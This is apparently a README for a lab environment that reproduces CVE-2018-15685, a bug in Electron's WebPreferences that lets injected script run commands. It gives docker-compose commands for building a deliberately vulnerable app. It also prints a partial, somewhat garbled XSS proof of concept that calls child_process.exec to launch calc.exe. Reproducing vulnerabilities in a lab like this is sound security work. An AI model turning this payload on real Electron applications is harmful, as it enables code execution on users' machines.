

# Electron WebPreferences Remote Code Execution Vulnerability（CVE-2018-15685）

[中文版本(Chinese version)](README.zh-cn.md)

Electron is an open source library developed by GitHub for building cross-platform desktop applications with HTML, CSS, and JavaScript. Electron accomplishes this by combining Chromium and Node.js into a single runtime and apps can be packaged for Mac, Windows, and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypass this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference links:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compile application

Execute the following command to compile an  vulnerability application:

```
docker-compose run -e PLATFORM=win64 --rm electron
```

The value of `PLATFORM` is the operating system on which the application is running. The options are:`win64`、`win32`、`mac`、`linux`。

After the compilation completed, execute the following command to run the web service:

```
docker-compose run --rm -p 8080:80 web
```

Now，access`http://your-ip:8080/cve-2018-15685.tar.gz`to download application.

## expliot

Open the app:



Click submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `` and find that nothing happens, because `nodeIntegration=false`.

At this time, submit the POC (Windows):

```
require(\'child_process\').exec(\'calc.exe\')</script>');">
```

As you see, calc.exe shows up.


